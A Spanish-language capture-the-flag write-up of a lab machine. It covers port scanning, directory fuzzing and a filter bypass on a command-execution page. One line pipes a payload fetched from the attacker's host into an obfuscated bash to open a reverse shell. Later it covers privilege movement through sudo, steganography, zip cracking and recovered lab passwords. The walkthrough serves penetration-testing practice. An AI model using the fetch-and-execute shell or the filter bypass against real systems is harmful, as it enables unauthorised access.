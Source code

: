 ### nmap
```python
sudo nmap -p- --open -sS -sCV -n -Pn 10.10.95.51
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-18 18:53 EST
Nmap scan report for 10.10.95.51
Host is up (0.21s latency).
Not shown: 65531 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.203.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.51 seconds
```
### ports: 21/tcp - 22/ssh - 80/http

### Enumeración 80
![[Pasted image 20231118200242.png]]
la pagina principal parace no tener nada importante
### fuzzing con gobuster
![[Pasted image 20231118201742.png]]
### tenemos un monton de directorios pero el que nos llama mas la atencion es /secret asi que vamos a investigar
tenemos una pagina que al parecer nos permite ejecutar codigo
![[Pasted image 20231118202125.png]]
### Al parecer somos el usuario www-data  pero no podemos ejecutar cualquier codigo ya que nos da errores
### despues de una larga busqueda por internet y probar un monton de cosas hemos consegido que interponiendo la barra slash invertido en cada letra de comando al parecer nos deja ejecutarlo. usaremos esto para intentar enviarnos una reverse shell 
![[Pasted image 20231118212931.png]]
### hemos creado un archivo shell.php con una reverse shell y hemos creado un servidor en python para poder conpartirnos el archivo y paralelamente nos hemos puesto a la escucha para poder obtener la shel
```python
	curl 10.8.203.6:8000/shellencod.php | /b?n/ba?h
```
### somos el usuario www-data
hemos intentado hacer tratamiento de tty pero al parecer no podemos. tendremos que hacer movimiento lateral hacia otro usuario para intentarlo de nuevo
![[Pasted image 20231118214103.png]]
### veamos los permisos SUID
![[Pasted image 20231119202137.png]]
al parecer tenemos un script de apaar pero todos pueden ejecutarlo. asi que vamos a aprovechar esto para intentar cambiarlos al usuario apaar.
### aprovechamos que apaar puede ejecutar este script asi que lo intentaremos ejecutar como apaar con el siguiente comando

```python 
sudo -u apaar /home/apaar/.helpline.sh
```
![[Pasted image 20231119202426.png]]
### perfecto. somos apaar. hacemos tratamiento de tty y listamos directorios
![[Pasted image 20231119202943.png]]
###### El index.php parece no tener nada muy importante y en imagenes tampoco.
### seguimos buscando y conseguimos una ruta donde tenemos archivos muy interesantes
vamos a mirar el archivo hacker.php
![[Pasted image 20231119203534.png]]
###### tenemos lo que parece ser una pagina web con una imagen y un mensaje que dice: mira en la oscuridad y podrás conseguir la respuesta
### hacemos cat al siguiente archivo en este caso account.php
![[Pasted image 20231119203858.png]]
###### en este caso tenemos informacion sobre una base de datos. nos dan pistas sobre el tipo de hash utilizados y parece que apunta a la tabla de usuarios
### el archivo index.php nos da informacion sobre lo que efectivamente es una base de datos
![[Pasted image 20231119204232.png]]
###### tenemos informacion sobre una base de datos mysql y al parecer las credenciales son
```python
	DATABASE:

	User: root

	Passwd: !@m+her00+@db
```
### nos faltaria enumerar el directorio images
![[Pasted image 20231119204822.png]]
### tenemos un gif y un jpg que por el nombre nos da algo de curiosidad. vamos a descargarla a nuestra maquina para poder examinarla

![[Pasted image 20231119205135.png]]
###### con un servidor en python hemos descargado la imagen ahora podemos examinarla desde nuestra maquina
### hemos utilizado la herramienta binwalk pero parece estar todo bien. luego usamos steghide para intentar extraer informacion oculta en la imagen

```python
	steghide --extract -sf hacker-with-laptop_23-2147985341.jpg
```

![[Pasted image 20231119205505.png]]
### el archivo pide una contraseña la cual no conocemos asi que solo damos enter. nos dara un mensaje de error pero si listamos nos damos cuenta que tenemos un nuevo archivo llamado backup.zip

![[Pasted image 20231119210309.png]]

### al intentar descomprimir el archivo nos damos cuenta que tambien esta encriptado asi que le damos enter pero en este caso no tenemos suerte. asi que vamos a desencriptarlo usando zip2jhon
```python
zip2john backup.zip > backup.hash
```
![[Pasted image 20231119211020.png]]
### descomprimimos el archivo backuo.hash que hemos creado usando jhon
![[Pasted image 20231119211549.png]]
### tenemos la contraseña para el backup.zip
```python 
	pass1word
```
### usamos la contraseña para descomprimir el archivo 
![[Pasted image 20231119211930.png]]
### tenemos un nuecho archivo llamado source_code.php
![[Pasted image 20231119212545.png]]
### tal parece que se trata de una pagina admin portal en el cual podemos ver una contraseña en base64 y un mensaje que dice Welcome anurodh. al parecer son las credenciales para este usuario

Credenciales
```python
	pass: IWQwbnRLbjB3bVlwQHNzdzByZA==

	user: Anurodh
```

### vamos a decodear esta password en base64 y intentaremos conectarnos como anurodh
![[Pasted image 20231119215709.png]]
### usaremos estas credenciales para 
